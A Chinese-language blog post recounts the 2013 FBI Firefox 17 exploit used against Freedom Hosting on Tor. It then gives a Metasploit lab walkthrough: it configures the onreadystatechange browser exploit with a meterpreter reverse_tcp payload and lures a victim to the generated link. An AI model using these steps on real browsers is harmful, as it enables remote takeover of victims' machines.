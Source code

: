 ```yaml
---
layout: post
title: "The fbi tor exploit"
description: ""
category: 
tags: []
---
```

{% include JB/setup %}

http://resources.infosecinstitute.com/fbi-tor-exploit/

Tor网络是一种允许用户匿名访问网站和其他服务的网络。在这个网络中，存在一种称为黑暗网络（darknet）的服务，从论坛到电子邮件都有，这些服务是只有通过tor才可以访问。

Tor通过志愿者提供的3000多个中继传输网络流量从而隐藏真实用户的位置信息。尽管Tor网络上的很多服务都是清白的，但是它的匿名性也吸引了很多具有犯罪意图的人，比如传播儿童色情的组织。

出生于美国的Eric Eoin Marques居住在爱尔兰的都柏林，他是Freedom Hosting的首席架构师，而Freedom Hosting在欧洲的550台服务器被指控用来托管儿童色情网站。

Freedom Hosting就是Tor网络上的一个重要的服务提供商。它的服务只能通过tor网络来访问。因为它涉嫌违法的事情，所以Tor的负责人还特地发表过声明，称他们跟运营Freedom Hosting的人没有任何关系。声明如下：

“运营Freedom Hosting的人或组织跟开发Tor软件的团队没有任何关联和隶属关系。过去，曾有敌对的组织试图绕过tor隐藏的服务，直接攻击tor网络背后服务器上的软件。通常都是利用php，mysql和其他的软件的漏洞而不是tor本身的漏洞。最近有消息表明，有人成功利用了Freedom Hosting背后的软件漏洞。据我们所知是利用了Firefox 17 ESR的一个bug，tor浏览器就是基于这个firefox版本的。我们会研究这些bug，并尽快修复他们。

FBI利用了firefox17的一个漏洞，成功追踪到了Freedom Hosting的服务器。它使用的payload是收集电脑的MAC地址和hostname，然后通过http协议发送到自己控制的服务器上从而获得真实的ip地址。

Mozilla Firefox 小于22.0的版本，Firefox ESR 17.x，小于17.07的版本，Thunderbird ESR 17.x，小于17.07的版本没有妥善的处理onreadystatechange事件，导致远程攻击者可以拒绝服务攻击（程序crash）或者可能执行任意代码。

2013年8月份的时候就已经有人在利用这个漏洞攻击Tor browser的用户了。现在msf上已经有利用模块。针对firefox17.06.模块使用说明：

	windows/browser/mozilla_firefox_onreadystatechange:

![firefox]({{site.img_url}}firefox1.png)

	输入show options检查这个exp的配置项

![firefox]({{site.img_url}}firefox2.png)

	SRVHOST是msf本机的地址，这里配置命令是set SRVHOST 192.168.0.3

![firefox]({{site.img_url}}firefox3.png)

	然后设置payloadset PAYLOAD windows/meterpreter/reverse_tcp

![firefox]({{site.img_url}}firefox4.png)

	输入show options查看payload的配置项

![firefox]({{site.img_url}}firefox5.png)

	设置接受反弹shell的地址 set LHOST 192.168.0.103

![firefox]({{site.img_url}}firefox6.png)

	输入run命令开始监听:

![firefox]({{site.img_url}}firefox7.png)

	只要让受害者访问这个exp生成的链接就可以了.这里是http://192.168.0.103:8080/2Hek0bdO


![firefox]({{site.img_url}}firefox8.png)

	如果对方的浏览器存在漏洞可以看到msf的输出如下：

![firefox]({{site.img_url}}firefox9.png)

参考资料：

http://rt.com/usa/fbi-exploiting-tor-child-porn-842/

http://siliconangle.com/blog/2013/08/06/darknet-freedom-hosting-sites-shutdown-led-by-fbi-exploit-use-against-tor-network/

http://thehackernews.com/2013/08/Firefox-Exploit-Tor-Network-child-pornography-Freedom-Hosting.html

http://www.rapid7.com/db/modules/exploit/windows/browser/mozilla_firefox_onreadystatechange

PS：测试总是crash。。。欢迎大牛指点。



